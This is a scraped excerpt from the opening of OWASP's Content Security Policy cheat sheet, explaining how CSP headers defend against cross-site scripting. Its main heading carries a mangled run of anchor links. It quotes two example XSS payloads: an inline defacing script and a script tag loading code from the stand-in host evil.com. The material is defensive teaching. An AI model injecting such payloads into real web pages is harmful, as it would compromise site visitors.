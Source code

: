 ```yaml
---
title: "Content Security Policy Cheat Sheet"
source: "OWASP Cheatsheet"
source_url: "https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html"
created: "1741872881.7779374"
tags: [owasp, cheatsheet, security]
---
```

# Content Security Policy

## Content Security Policy Cheat Sheet[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[¶](#references)](#refactoring-inline-code)](#preventing-framing-attacks-clickjacking-cross-site-leaks)](#upgrading-insecure-requests)](#basic-non-strict-csp-policy)](#hash-based-strict-policy)](#nonce-based-strict-policy)](#strict-policy)](#csp-sample-policies)](#special-directive-sources)](#reporting-directives)](#navigation-directives)](#document-directives)](#fetch-directives)](#detailed-csp-directives)](#strict-dynamic)](#note)](#hashes)](#warning_1)](#nonce-based)](#strict-csp)](#csp-types-granularallowlist-based-or-strict)](#warning)](#3-content-security-policy-meta-tag)](#2-content-security-policy-report-only-header)](#1-content-security-policy-header)](#policy-delivery)](#defense-in-depth)](#defense-against-framing-attacks)](#5-restricting-[object](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/object)s)](#4-restricting-form-submissions)](#3-restricting-unsafe-javascript)](#2-restricting-remote-scripts)](#1-restricting-inline-scripts)](#defense-against-xss)](#context)](#introduction)](#content-security-policy-cheat-sheet)
### Introduction¶
This article brings forth a way to integrate the defense in depth concept to the client-side of web applications. By injecting the [- Content-Security-Policy](https://content-security-policy.com/) (CSP) headers from the server, the browser is aware and capable of protecting the user from dynamic calls that will load content into the page currently being visited.
### Context¶
The increase in XSS (Cross-Site Scripting), clickjacking, and cross-site leak vulnerabilities demands a more defense in depth security approach.
#### Defense against XSS¶
CSP defends against XSS attacks in the following ways:
##### 1. Restricting Inline Scripts¶
By preventing the page from executing inline scripts, attacks like injecting
<script>document.body.innerHTML='defaced'</script>

will not work.
##### 2. Restricting Remote Scripts¶
By preventing the page from loading scripts from arbitrary servers, attacks like injecting
<script src="https://evil.com/hacked.js"></script>
